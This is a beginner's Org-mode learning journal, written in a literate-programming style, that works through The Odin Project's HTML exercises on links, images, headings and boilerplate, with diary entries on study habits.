2. Within that directory, create a new file named index.html.
3. Open the file in VS Code and fill in the usual HTML boilerplate.
#+end_quote

[[file:odin/assignments/foundations/odin-links-and-images/index.html][odin/assignments/foundations/odin-links-and-images/index.html]] ≡

#+begin_src html :tangle odin/assignments/foundations/odin-links-and-images/index.html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <title>My first page from Odin</title>
  </head>

  <body>
    <<body Content odin-links-and-images>>
  </body>
</html>
#+end_src

#+begin_quote
4. Finally, add the following h1 to the body:

<h1>Homepage</h1>
#+end_quote

~<<body Content odin-links-and-images>> +≡~

#+begin_src html :noweb-ref body Content odin-links-and-images
<h1>Homepage</h1>
#+end_src

[2025-09-27 Sat 11:57] Pausing for lunch.

[2025-09-27 Sat 17:57] Coming back, after busking.

The Web is made out of links.
Let's add our first one.
We need to add an *anchor* element, and give it some attributes.
We'll leave a placeholder for the attributes.

~<<body Content odin-links-and-images>> +≡~

#+begin_src html :noweb-ref body Content odin-links-and-images :noweb-seb nil
<a
  <<attributes for Odin about page href>>
  >About the Odin Project.</a>
#+end_src

The first attribute contains the /link/ itself, and is called *href*.

~<<attributes for Odin about page href>> +≡~

#+begin_src html :noweb-ref attributes for Odin about page href
href="https://www.theodinproject.com/about"
#+end_src

The link now would open on the same tab.
Let's open in a new one, using the attribute *target*.

~<<attributes for Odin about page href>> +≡~

#+begin_src html :noweb-ref attributes for Odin about page href
target="_blank"
#+end_src

Now we add some security measures.
This new attribute and value prevents some dangers when linking to another page.
Possible attacks include phishing and tabnabbing.

~<<attributes for Odin about page href>> +≡~

#+begin_src html :noweb-ref attributes for Odin about page href
rel="noopener noreferrer"
#+end_src

**** Relative links

Create a page on our own server.

*NOTE:* the =pages/= was added later in this assignment.

[[file:odin/assignments/foundations/odin-links-and-images/about.html][odin/assignments/foundations/odin-links-and-images/pages/about.html]] ≡

#+begin_src html :tangle odin/assignments/foundations/odin-links-and-images/pages/about.html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <title>Odin Links and Images</title>
  </head>

  <body>
    <h1>About Page</h1>
    <<le Charles>>
  </body>
</html>
#+end_src

Add a /relative/ link to it on the main page.

~<<body Content odin-links-and-images>> +≡~

#+begin_src html :noweb-ref body Content odin-links-and-images
<a href="pages/about.html">About</a>
#+end_src

Let's organize it: add a folder for all the other pages besides =index.html=.

#+begin_src shell :dir ~/dev/webdev-study/odin/assignments/foundations/odin-links-and-images/
mkdir pages
#+end_src

#+RESULTS:

And move =about.html= there.

#+begin_src shell :dir ~/dev/webdev-study/odin/assignments/foundations/odin-links-and-images/
mv about.html pages
#+end_src

#+RESULTS:

*** Images
:PROPERTIES:
:header-args: :dir ~/dev/webdev-study/odin/assignments/foundations/odin-links-and-images/
:END:

Assignment.

#+begin_quote
1. Create a new directory named images within the odin-links-and-images project.
#+end_quote

#+begin_src shell
mkdir images
#+end_src

#+RESULTS:

#+begin_quote
2. Next, download our practice image and move it into the images directory we just created.
3. Rename the image to dog.jpg.
#+end_quote

#+begin_src shell
wget --output-document=images/dog.jpg https://unsplash.com/photos/Mv9hjnEUHR4/download?force=true&w=640
#+end_src

#+RESULTS:

Add the image to the home page, and the About one (using relative path).
Both will have some attributes that are the same.
Let's give them a placeholder.

~<<body Content odin-links-and-images>> +≡~

#+begin_src html :noweb-ref body Content odin-links-and-images
<img src="./images/dog.jpg"
<<dog pic attributes>>
  >
#+end_src

Now add the pic to the About page, using a relative path to the parent folder.

~<<le Charles>> +≡~

#+begin_src html :noweb-ref le Charles
<img src="../images/dog.jpg"
<<dog pic attributes>>
  >
#+end_src

Add the alternative text.

~<<dog pic attributes>> +≡~

#+begin_src html :noweb-ref dog pic attributes
alt="A black dog (pug) with a gray wool blanket."
#+end_src

**** Image size attributes
Now the size attributes.

~<<dog pic attributes>> +≡~

#+begin_src html :noweb-ref dog pic attributes
width="604" height="806"
#+end_src

*** [2025-09-27 Sat 19:37] Assignment on [[https://internetingishard.netlify.app/html-and-css/links-and-images/][Interneting]]
:PROPERTIES:
:header-args:
:END:

[[file:odin/assignments/foundations/interneting-links-and-images/links.html][odin/assignments/foundations/interneting-links-and-images/links.html]] ≡

#+begin_src html :tangle odin/assignments/foundations/interneting-links-and-images/links.html
<!DOCTYPE html>
<html lang="en">
  <head>
    <title>Links</title>
    <meta charset="UTF-8">
  </head>
  <body>
    <h1>Links</h1>
    <p>This particular page is about links! There are three kinds of links:</p>

    <ul>
      <<links>>
    </ul>
  </body>
</html>
#+end_src

[[file:odin/assignments/foundations/interneting-links-and-images/images.html][odin/assignments/foundations/interneting-links-and-images/images.html]] ≡

#+begin_src html :tangle odin/assignments/foundations/interneting-links-and-images/images.html
<!DOCTYPE html>
<html lang="en">
  <head>
    <title>Images</title>
    <meta charset="UTF-8">
  </head>
  <body>
    <h1>Images</h1>
    <p>This page covers common image formats, but you may also be looking for
      <a href='links.html'>links</a> and
      <a href='misc/extras.html'>useful extras</a>.
    </p>
    <<images>>
  </body>
</html>
#+end_src

[[file:odin/assignments/foundations/interneting-links-and-images/misc/extras.html][odin/assignments/foundations/interneting-links-and-images/misc/extras.html]] ≡

#+begin_src html :tangle odin/assignments/foundations/interneting-links-and-images/misc/extras.html :mkdirp yes
<!DOCTYPE html>
<html lang="en">
  <head>
    <title>Extras</title>
    <meta charset="UTF-8">
  </head>
  <body>
    <h1>Extras</h1>
    <p>This page is about miscellaneous HTML things,
      but you may also be interested in
      <a href='../links.html'>links</a> or
      <a href='../images.html'>images</a>.
    </p>
    <h2>Character Sets</h2>
    <p>You can use UTF-8 to count in Turkish:</p>
    <ol>
      <li>bir</li>
      <li>iki</li>
      <li>üç</li>
      <li>dört</li>
      <li>beş</li>
    </ol>
    <<Reserved Characters>>
    <<Curly Quotes>>
  </body>
</html>
#+end_src

Unzip images.

#+begin_src shell :dir odin/assignments/foundations/interneting-links-and-images/
unzip images-4149f7.zip
rm images-4149f7.zip
#+end_src

#+RESULTS:
| Archive:   | images-4149f7.zip |
| inflating: | -4149f7.zip       |

Absolute links.

~<<links>> +≡~

#+begin_src html :noweb-ref links
<li>Absolute links, like to
  <a href='https://developer.mozilla.org/en-US/docs/Web/HTML'
    target='_blank'>Mozilla
    Developer Network</a>,
  which is a very good resource for web developers.
</li>
#+end_src

Relative Links.

~<<links>> +≡~

#+begin_src html :noweb-ref links
<li>Relative links, like to our <a href='misc/extras.html'>extras page</a>.
</li>
#+end_src

~<<links>> +≡~

#+begin_src html :noweb-ref links
<!-- This won't work for our local HTML files -->
<li>Root-relative links, like to the
  <a href='/'>home page</a>
  of our website, but those aren't useful to us right now.
</li>
#+end_src

Add the images.
First a JPG, good for *pictures* (large color palettes).

~<<images>> +≡~

#+begin_src html :noweb-ref images
<h2>JPGs</h2>
<p>JPG images are good for photos.</p>
<img src='images/mochi.jpg' width='75'
<<alt jpg>>
  >
#+end_src

Then a GIF, for *animations*, (short color palettes, crude transparency).

~<<images>> +≡~

#+begin_src html :noweb-ref images
<h2>GIFs</h2>
<p>GIFs are good for animations.</p>
<img src='images/mochi.gif' width='75'
<<alt gif>>
  >
#+end_src

Now a PNG, good transparency, large color palletes, but bigger than JPG.
Useful for small images that need good transparency, like icons and logos.

~<<images>> +≡~

#+begin_src html :noweb-ref images
<h2>PNGs</h2>
<p>PNGs are good for icons and logos.</p>
<img src='images/mochi.png' width='75'
<<alt png>>
  >
#+end_src

Finally the SVG, /vector/ based (as opposed to /pixel/-): scales without loss of quality.
Use them instead of PNGs whenever possible.

~<<images>> +≡~

#+begin_src html :noweb-ref images
<h2>SVGs</h2>
<p>SVGs are <em>amazing</em>. Use them wherever you can.</p>
<img src='images/mochi.svg' width='75'
<<alt svg>>
  >
#+end_src

~<<alt jpg>> +≡~

#+begin_src html :noweb-ref alt jpg
alt='A mochi ball in a bubble'
#+end_src

~<<alt gif>> +≡~

#+begin_src html :noweb-ref alt gif
alt='A dancing mochi ball'
#+end_src

~<<alt png>> +≡~

#+begin_src html :noweb-ref alt png
alt='A mochi ball'
#+end_src

~<<alt svg>> +≡~

#+begin_src html :noweb-ref alt svg
alt='A mochi ball with Bézier handles'
#+end_src

~<<Curly Quotes>> +≡~

#+begin_src html :noweb-ref Curly Quotes
<p>If you&rsquo;re into &ldquo;web typography,&rdquo; you&rsquo;ll also find
   yourself using curly quotes quite a bit.
</p>
#+end_src

**** Reserved Characters
~<<Reserved Characters>> +≡~

#+begin_src html :noweb-ref Reserved Characters
<h2>HTML Entities</h2>
<p> There are three reserved characters in HTML:
  <strong>&lt;</strong> <strong>&gt;</strong> and <strong>&amp;</strong>.
  You should always use HTML entities for these three characters.
</p>
#+end_src

** Seinfeld Checkmark
[[file:images/2025-09-27_seinfeld.jpeg]]

* [2025-09-26 Fri]
** Feel like snowballing.
Was drifting and rabbit-holling, as per usual
Checking out the [[https://www.theodinproject.com/dashboard][Odin Project]], thought it was cool they also develop /character/.
Grit, resilience, and the rollercoaster to mastery were eye-openers to me.

Asked ChatGPT for help there.
Got realistic market analysis, criticism about main goal, specific roadmap with projects, and milestones.

Started applying the Seinfeld checkmarks.
I want to code a minimum of 1 hour every day.
Almost procrastinated until I bought a cool sheet with the squares, but ended up doing it by hand.

[[file:images/2025-09-26_seinfeld.jpeg]]

I really like those sites that allow you to code online.
Did 3 min of Exercism, elisp.
But then felt guilty, because I was derailing from the reading materials from Odin.
I want to code in other languages, besides JS.
I'll make sure to include them.
I want it to be also fun and enjoyable :)

Decided to turn this into a journal for accountability.
A bit of afraid this will derail me (happened in the past), but more confident on my resilience and emotional regulation skills this time.
Let's see.

Reading a lot of the initial material from Odin.
Decided on the Foundations.
Gonna follow this one---and *not* derail!
Need to feel secure about this.
But have to be careful about rabbit holes.

Personally, I tend to try to become a "specialist" on every detail.
Many times I don't get past the first stages of the learning process.
Journaling helps me a lot here.

Just opened a new issue on Odin's page.
I want to start collaborating.
It's a really easy one, but it's a start.

Just found out I goofed-up: the /real/ issue was my eagerness...
The issue is non-existant: I misread the text...
Well, one good opportunity to learn about this current personality trait!

Fitst session of the day ended.
Could finish all the initial readings and setup stuff.

Next: HTML!

** Odin recommended a site that has some JS.
Let's see if I remember it.
It's the code to sum two numbers.
It's a bit more complicated, because involves accessing the DOM.
Let's simplify it.
Just sum the contents of two variables, and assign it to another variable.

#+begin_src js
function sum (a, b) {
    let total = a + b;
    return total;
}
#+end_src

#+begin_quote
function NAME (ARGS) { STATEMENT; ... }
#+end_quote

And it returns with =return=.

Node.js is used to run JS in the server.

HTML: the page has *content*, which is enclosed in *tags*, forming *elements*.

An HTML tag is the markup language entity used to define elements with the content that will be shown on the page.

The element has
1. Opening tag;
2. Content;
3. Closing tag.


Void elements
- Don't have a closing tag; and
- Have no content.


We're coding, baby!

[[file:html-boilerplate/index.html][html-boilerplate/index.html]] ≡

#+begin_src html :tangle html-boilerplate/index.html
<!DOCTYPE html>
<html lang="en">
  <<head Block>>

  <<body Block>>
</html>
#+end_src

The =head= contains metadata and rendering instructions.
*No page content* here.
Always the first element inside =<html>=.

~<head Block> +≡~

#+begin_src html :noweb-ref head Block
<head>
  <<charset>>
  <<title>>
</head>
#+end_src

Let's make sure all glyphs show correctly.

~<<charset>> +≡~

#+begin_src html :noweb-ref charset
<meta charset="UTF-8">
#+end_src

Now the title.

~<<title>> +≡~

#+begin_src html :noweb-ref title
<title>My first page from Odin</title>
#+end_src

~<<body Block>> +≡~

#+begin_src html :noweb-ref body Block
<body>
  <<body Contents>>
</body>
#+end_src

Now add this to Emacs =web-mode=.

#+begin_src elisp
(add-to-list 'web-mode-snippets
               '("my-odin-html-boilerplate"
                 "<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <title>My first page from Odin</title>
  </head>

  <body>
  </body>
</html>
"))
#+end_src

~<<body Contents>> +≡~

#+begin_src html :noweb-ref body Contents
<h1>Hello, World!</h1>
#+end_src

And W3 validate, baby!

I did some coding in HTML, and some debugging in Emacs.  Either Org or =noweb= were misbehaving.
Didn't know which though---I just restarted Emacs, and everything went back to normal.
Could apply the steps recommended by Odin for analyzing the problem, and it helped.

** 1h Coding, Hello World, HTML Boilerplate
:PROPERTIES:
:header-args: :session hello world
:END:
End of the day, after busking.
Kinda desperate that I didn't code today's 1h.
But there's plenty of time.
Thought of doing some elisp, but wanna focus on JS.

Let's try Exercism.
Can't really do the exercises without knowing the language, and don't think grinding on Exercism is a good use of my time.

Gonna go back to Odin, even if it is more /theory/ now.
There's hopefully some coding even now in the beginning.
If not, I'll reserve some time later and code elisp.

** Working with Text
*** Create a blog post
#+begin_quote
Create a plain blog article page which uses different headings, uses paragraphs, and has some text in the paragraphs bolded and italicized.
You can use Lorem Ipsum to generate dummy text, in place of real text as you build your sites.
#+end_quote

[[file:odin/assignments/foundations/working-with-text/index.html][odin/assignments/foundations/working-with-text/index.html]] ≡

#+begin_src html :tangle odin/assignments/foundations/working-with-text/blog-post.html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <title>Lorem ipsum</title>
  </head>

  <body>
    <h1>Phasellus neque orci, porta a, aliquet quis, semper a, massa</h1>
    <p>Aliquam erat volutpat.  Nunc eleifend <em>leo vitae magna</em>.  In id erat non orci commodo lobortis.  Proin neque massa, cursus ut, gravida ut, lobortis eget, lacus.  Sed diam.  Praesent fermentum tempor tellus.  Nullam tempus.  Mauris ac felis vel velit tristique imperdiet.  Donec at <strong>peed</strong>.  Etiam vel neque nec dui dignissim bibendum.  Vivamus id enim.  Phasellus neque orci, porta a, aliquet quis, semper a, massa.  Phasellus purus.  Pellentesque tristique imperdiet tortor.  Nam euismod <strong>tellus id erat</strong>.</p>

    <h2>Donec hendrerit tempor tellus</h2>
    <p>Pellentesque dapibus suscipit ligula.  Donec posuere augue in quam.  Etiam vel tortor sodales tellus ultricies commodo.  Suspendisse potenti.  Aenean in sem ac leo mollis blandit.  Donec neque quam, dignissim in, mollis nec, sagittis eu, wisi.  Phasellus lacus.  Etiam laoreet quam sed arcu.  Phasellus at dui in ligula mollis ultricies.  Integer placerat tristique nisl.  Praesent augue.  Fusce commodo.  Vestibulum convallis, lorem a tempus semper, dui dui euismod elit, vitae placerat urna tortor vitae lacus.  Nullam libero mauris, consequat quis, varius et, dictum id, arcu.  Mauris mollis tincidunt felis.  Aliquam feugiat tellus ut neque.  Nulla facilisis, risus a rhoncus fermentum, tellus tellus lacinia purus, et dictum nunc justo sit amet elit.</p>

    <h3>Aliquam posuere</h3>
    <p>Nullam eu ante vel est convallis dignissim.  Fusce suscipit, wisi nec facilisis facilisis, est dui fermentum leo, quis tempor ligula erat quis odio.  Nunc porta vulputate tellus.  Nunc rutrum turpis sed pede.  Sed bibendum.  Aliquam posuere.  Nunc aliquet, augue nec adipiscing interdum, lacus tellus malesuada massa, quis varius mi purus non odio.  Pellentesque condimentum, magna ut suscipit hendrerit, ipsum augue ornare nulla, non luctus diam neque sit amet urna.  Curabitur vulputate vestibulum lorem.  Fusce sagittis, libero non molestie mollis, magna orci ultrices dolor, at vulputate neque nulla lacinia eros.  Sed id ligula quis est convallis tempor.  Curabitur lacinia pulvinar nibh.  Nam a sapien.</p>

    <h3>Fusce suscipit, wisi nec facilisis facilisis, est dui fermentum leo, quis tempor ligula erat quis odio</h3>
    <p>Pellentesque dapibus suscipit ligula.  Donec posuere augue in quam.  Etiam vel tortor sodales tellus ultricies commodo.  Suspendisse potenti.  Aenean in sem ac leo mollis blandit.  Donec neque quam, dignissim in, mollis nec, sagittis eu, wisi.  Phasellus lacus.  Etiam laoreet quam sed arcu.  Phasellus at dui in ligula mollis ultricies.  Integer placerat tristique nisl.  Praesent augue.  Fusce commodo.  Vestibulum convallis, lorem a tempus semper, dui dui euismod elit, vitae placerat urna tortor vitae lacus.  Nullam libero mauris, consequat quis, varius et, dictum id, arcu.  Mauris mollis tincidunt felis.  Aliquam feugiat tellus ut neque.  Nulla facilisis, risus a rhoncus fermentum, tellus tellus lacinia purus, et dictum nunc justo sit amet elit.</p>

    <h2>Mauris mollis tincidunt felis</h2>
    <p>Nullam eu ante vel est convallis dignissim.  Fusce suscipit, wisi nec facilisis facilisis, est dui fermentum leo, quis tempor ligula erat quis odio.  Nunc porta vulputate tellus.  Nunc rutrum turpis sed pede.  Sed bibendum.  Aliquam posuere.  Nunc aliquet, augue nec adipiscing interdum, lacus tellus malesuada massa, quis varius mi purus non odio.  Pellentesque condimentum, magna ut suscipit hendrerit, ipsum augue ornare nulla, non luctus diam neque sit amet urna.  Curabitur vulputate vestibulum lorem.  Fusce sagittis, libero non molestie mollis, magna orci ultrices dolor, at vulputate neque nulla lacinia eros.  Sed id ligula quis est convallis tempor.  Curabitur lacinia pulvinar nibh.  Nam a sapien.</p>

    <p>Lorem ipsum dolor sit amet, consectetuer adipiscing elit.  Donec hendrerit tempor tellus.  Donec pretium posuere tellus.  Proin quam nisl, tincidunt et, mattis eget, convallis nec, purus.  Cum sociis natoque penatibus et magnis dis parturient montes, nascetur ridiculus mus.  Nulla posuere.  Donec vitae dolor.  Nullam tristique diam non turpis.  Cras placerat accumsan nulla.  Nullam rutrum.  Nam vestibulum accumsan nisl.</p>

    <h3>Lorem ipsum dolor sit amet, consectetuer adipiscing eli</h3>
    <p>Pellentesque dapibus suscipit ligula.  Donec posuere augue in quam.  Etiam vel tortor sodales tellus ultricies commodo.  Suspendisse potenti.  Aenean in sem ac leo mollis blandit.  Donec neque quam, dignissim in, mollis nec, sagittis eu, wisi.  Phasellus lacus.  Etiam laoreet quam sed arcu.  Phasellus at dui in ligula mollis ultricies.  Integer placerat tristique nisl.  Praesent augue.  Fusce commodo.  Vestibulum convallis, lorem a tempus semper, dui dui euismod elit, vitae placerat urna tortor vitae lacus.  Nullam libero mauris, consequat quis, varius et, dictum id, arcu.  Mauris mollis tincidunt felis.  Aliquam feugiat tellus ut neque.  Nulla facilisis, risus a rhoncus fermentum, tellus tellus lacinia purus, et dictum nunc justo sit amet elit.</p>

    <p>Lorem ipsum dolor sit amet, consectetuer adipiscing elit.  Donec hendrerit tempor tellus.  Donec pretium posuere tellus.  Proin quam nisl, tincidunt et, mattis eget, convallis nec, purus.  Cum sociis natoque penatibus et magnis dis parturient montes, nascetur ridiculus mus.  Nulla posuere.  Donec vitae dolor.  Nullam tristique diam non turpis.  Cras placerat accumsan nulla.  Nullam rutrum.  Nam vestibulum accumsan nisl.</p>

    <p>Pellentesque dapibus suscipit ligula.  Donec posuere augue in quam.  Etiam vel tortor sodales tellus ultricies commodo.  Suspendisse potenti.  Aenean in sem ac leo mollis blandit.  Donec neque quam, dignissim in, mollis nec, sagittis eu, wisi.  Phasellus lacus.  Etiam laoreet quam sed arcu.  Phasellus at dui in ligula mollis ultricies.  Integer placerat tristique nisl.  Praesent augue.  Fusce commodo.  Vestibulum convallis, lorem a tempus semper, dui dui euismod elit, vitae placerat urna tortor vitae lacus.  Nullam libero mauris, consequat quis, varius et, dictum id, arcu.  Mauris mollis tincidunt felis.  Aliquam feugiat tellus ut neque.  Nulla facilisis, risus a rhoncus fermentum, tellus tellus lacinia purus, et dictum nunc justo sit amet elit.</p>
  </body>
</html>

#+end_src

** First Seinfeld checkmark!
And this coding session warranted me my first one Seinfeld checkmark!

[[file:images/2025-09-26_seinfeld_checked.jpeg]]

* [2025-09-24 Wed]
So, we're learning Web Dev.
Well, at least /I/ am!

Let's make it easier and more fun with Literate Programming in Org Mode.

Starting from the fundamentals.
Web pages are all about navigating through content.
To make things easier, we have:
- HTML, for /structure/;
- CSS, for /style/;
- Javascript, for /logic/.


A minimal html page [[https://html.spec.whatwg.org/multipage/syntax.html?utm_source=chatgpt.com#writing][must have]]:

#+begin_src html
<!DOCTYPE html>
<html>
</html>
#+end_src

Here:
- ~<!DOCTYPE html>~ is the /Document Type Declaration/; it tells the browser the specifications that the page follows.
- ~<html>~ and ~</html>~ enclose the page itself.

The fundamental element of a web page is... well, an =element=.
By definition, an =element= is composed by (example inside the parentheses):
- opening tag (~<html>~);
- everything in between (called /content/);
- closing tag (~</html>~).

The page is made of a /sequence of elements/.

Some elements may be /empty/: they don't have a closing tag.
Example: ~<!DOCTYPE html>~.

A /cool/ first web page would be:

[[file:hello-world.html][hello-world.html]] ≡

#+begin_src html :tangle hello-world.html
<!DOCTYPE html>
<html>
  <p>Hello, World!</p>
</html>
#+end_src

*NOTE:* Here the /contents/ of the =element= ~<p>~ are "Hello, world!".

The ~<html>~ element contains all the elements of the whole page.
Only two tags should be immediately inside it: ~<head>~ and ~<body>~.
~<head>~ contains /metadata/; more about this below.
~<body>~ contains all the /visible/ elements of the page.

Then, each element of the page is either inside ~<head>~ or ~<body>~.
This is illustrated below.

#+begin_src
<html>
|
+- <head>
|
+- <body>
#+end_src

To help make things more clear, we'll call
- /Document/: the elements ~<!DOCTYPE>~ and ~<head>~ together, and
- /Page/: the ~<body>~ element.


For instance: ~hello-world.html~ contains the whole /document/.
When we open it on a browser, we see the (obviously /visible/) /page/, which is inside ~<body>~.

Let's then fix our first page!
It had a ~<p>~ element immediately inside ~<html>~, which is against the specs.
It must be inside ~<body>~.

We also have to add a ~<head>~ inside ~<html>~.
We could leave it empty, but that's not cool.
We'll put a ~<title>~ inside it.
~<title>~ is the /page/ title, that appears as the "name" of the browser window or the page's tab in the browser.

[[file:hello-world-fixed.html][hello-world-fixed.html]] ≡

#+begin_src html :tangle hello-world-fixed.html
<!DOCTYPE html>
<html>
  <head>
    <title>My first fixed page</title>
  </head>
  <body>
    <p>Hello, World!</p>
  </body>
</html>
#+end_src

If you open both ~hello-world.html~ and ~hello-world-fixed.html~, you'll see that they look the same.
This shows how /forgiving/ HTML is.
It really tries to help us get there.
Good on you, HTML!

To help organizing paragraphs, we have /headings/.
They give us /six/ of them: ~<h1>~ to ~<h6>~.

[[file:headings.html][headings.html]] ≡

#+begin_src html :tangle headings.html
<!DOCTYPE html>
<html>
  <head>
    <title>Guess who my favorite was?</title>
  </head>
  <body>
    <h1>S.H.I.E.L.D. Team</h1>
    <h2>Nick Fury</h2>
    <p>Leading S.H.I.E.L.D. with an iron will and one eye on the bigger picture. He always anticipates threats before they happen. His presence commands respect across the superhero community. Nothing slips past his watchful eye.</p>

    <h2>Phil Coulson</h2>
    <p>The calm in the storm, proving loyalty is a superpower. Coulson bridges heroes and humans with tact and understanding. He carries a quiet strength that inspires trust. Even in chaos, his steady hand guides the team.</p>

    <h2>Maria Hill</h2>
    <p>Strategic, precise, and always ready for action. Hill can handle the toughest missions with clarity and focus. Her decisiveness keeps S.H.I.E.L.D. running smoothly. She never hesitates when lives are on the line.</p>

    <h2>Melinda May</h2>
    <p>The Cavalry—silent, deadly, and unstoppable. May’s combat skills are unmatched in the field. Beneath her stoic exterior lies fierce loyalty to her team. Every mission she undertakes is executed with perfection.</p>

    <h2>Leopold Fitz</h2>
    <p>Brains behind the tech, making the impossible possible. Fitz’s inventions often turn the tide in dire situations. His curiosity drives constant innovation. Even under pressure, his intellect shines brilliantly.</p>

    <h2>Skye</h2>
    <h3>Hacker</h3>
    <p>Skye starts out as a brilliant hacker, using her skills to uncover secrets and fight for justice from the shadows. Her curiosity and determination make her a force to be reckoned with. Even before joining S.H.I.E.L.D., she proves she can challenge the system.</p>

    <h3>Agent</h3>
    <p>Joining S.H.I.E.L.D., Skye becomes a trained field agent, learning to balance her intellect with physical skill. She adapts quickly to missions, proving her value to the team. Her loyalty and resourcefulness grow stronger with every challenge.</p>

    <h3>Daughter</h3>
    <p>Skye discovers her true identity as Daisy Johnson, the daughter of a powerful Inhuman. This revelation reshapes her understanding of herself and her powers. She struggles but ultimately embraces her heritage, gaining confidence and purpose.</p>

    <h3>Leader</h3>
    <p>Over time, Skye evolves into a capable leader, guiding missions and protecting her team. Her experience as both an outsider and a hero gives her unique insight. She inspires others through courage, empathy, and decisiveness.</p>

    <h3>Quake</h3>
    <p>Fully embracing her abilities, Skye becomes Quake, wielding seismic powers to combat threats. She balances heroism with personal growth, using her strength to defend the world. Quake is the culmination of her journey, symbolizing resilience, power, and identity.</p>
  </body>
</html>
#+end_src

Interesting to note that the paragraphs inside a heading are *not* nested inside it.

Now comes the ~<br>~ element.
It forces a line break in the text.
It is an /empty/ element, meaning it has no content.
This implies it does *not* need nor have an end tag.

In the example below, the poem has two versions: in the first one, the line breaks are only in the source code, and the second version /forces/ them with ~<br>~.
Only the second one gets the expected result (well, at least on a big screen).

[[file:br.html][br.html]] ≡

#+begin_src html :tangle br.html
<!DOCTYPE html>
<html>
  <head>
    <title>br, but not for Brazil</title>
  </head>
  <body>
    <p>He-Man stands tall, sword held high,
      Shadows flee where his heroes fly.
      In Eternia’s heart, he lights the night,
      Strength and courage his endless might.</p>

    <p>He-Man stands tall, sword held high,<br>
      Shadows flee where his heroes fly.<br>
      In Eternia’s heart, he lights the night,<br>
      Strength and courage his endless might.</p>
  </body>
</html>
#+end_src

Now is a good time to note that the tag names are case-insensitive.
Very sensible of forgiving HTML.
But (there's always one (well, not /always/)) *lowercase is recommended* in general and *demanded* for stricter document types like XHTML.
Let's keep it down low then.
